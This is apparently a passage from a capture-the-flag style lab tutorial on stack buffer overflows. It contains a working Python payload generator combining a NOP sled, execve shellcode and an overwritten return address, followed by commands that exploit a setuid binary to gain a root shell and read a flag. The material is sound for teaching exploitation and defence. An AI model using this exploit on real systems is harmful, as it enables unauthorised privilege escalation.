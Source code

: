 Therefore, we decide to make the processor jump to the address of the buffer + 20 bytes (0xffffce0c + 20 = 0xffffce20) to get somewhere in the middle of the NOP sled.
Like the previous attack, we know that:

- we have our 108 bytes buffer
- followed by 4 bytes storing the %ebp (the base pointer of the main function)
- followed by 4 bytes storing the return address (the address that %eip is going to jump to after it completes the function)

This means that our payload can fill 112 bytes (108+4) before it overwrites the return address. Therefore, we can design our payload as such:

- 40 bytes for the NOP sled,
- 25 bytes for the shellcode and
- 47 bytes of random instructions ('A' for example)

The following script generate such a payload:

```python
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
print "\x90"*40 + shellcode + "A"*47 + "\x20\xce\xff\xff"
```

and we can execute our program with this payload:

``` shell
./vuln $(python attack.py)
```

We obtain a shell for the user `vagrant`:

```shell
$ whoami
vagrant
```

which is not particularly interesting in our case unless ...

## Capturing the flag

... there is a version of the vuln program that runs with higher privileges. For instance, one configuration could be when vuln is own by someone else (let's say `root`) with the [setuid bit](https://en.wikipedia.org/wiki/Setuid) enabled, a.k.a, sticky bit.

```shell
cd /home/vagrant
ls -la vuln
```

That could be useful if you were chasing a flag in a [CTF contest](https://en.wikipedia.org/wiki/Capture_the_flag):

```shell
cd /home/root
cat flag.txt
```

## Credits

This lab is built from the excellent materials authored by *Dhaval Kapil*
- [*Dhaval Kapil - Buffer Overflow Exploit*](https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/)
- [*Dhaval Kapil - Shellcode Injection*](https://dhavalkapil.com/blogs/Shellcode-Injection/)






